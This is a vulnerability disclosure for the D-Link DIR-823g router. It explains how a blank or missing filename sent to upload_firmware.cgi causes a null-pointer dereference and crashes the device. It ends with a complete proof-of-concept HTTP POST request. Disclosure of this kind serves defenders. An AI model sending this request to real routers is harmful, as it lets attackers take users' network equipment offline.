

## DIR-823g Null-pointer dereferences

### Overview

* Manufacturer's address：http://www.dlink.com.cn/
* Firmware download address ：http://www.dlink.com.cn/techsupport/ProductInfo.aspx?m=DIR-823g

### Affected version

D-Link DIR-823g A1V1.0.2B05 was found to contain a Null-pointer dereferences in `main` function of `upload_firmware.cgi`, which allows remote attackers to cause a Denial of Service (DoS) via a crafted input.


### Vulnerability details

Vulnerability occurs in /cgi-bin/upload_firmware.cgi. Attackers can control `v9` by setting the `UPLOAD_FILENAME`.



Function `sub_400EB4` checks the uploaded file `v9`. If opening `v9` file fails, `sub_400EB4` directly returns 0.


If the return value `v8` is 0, a null pointer will be passed to `strncmp` in line 38 of `main` function, causing the program to crash.


Based on the cause of the vulnerability, attackers can upload a non-existent file name or empty value, causing the router to crash. 

This allows an authorized attacker to perform a DoS attack.

### PoC

```
POST /cgi-bin/upload_firmware.cgi HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:80.0) Gecko/20100101 Firefox/80.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------28278418346116865854153533320
Content-Length: 189
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/FirmwareUpdate.html
Upgrade-Insecure-Requests: 1
-----------------------------28278418346116865854153533320
Content-Disposition: form-data; name="uploadConfigFile"; filename=" "
Content-Type: application/octet-stream
```
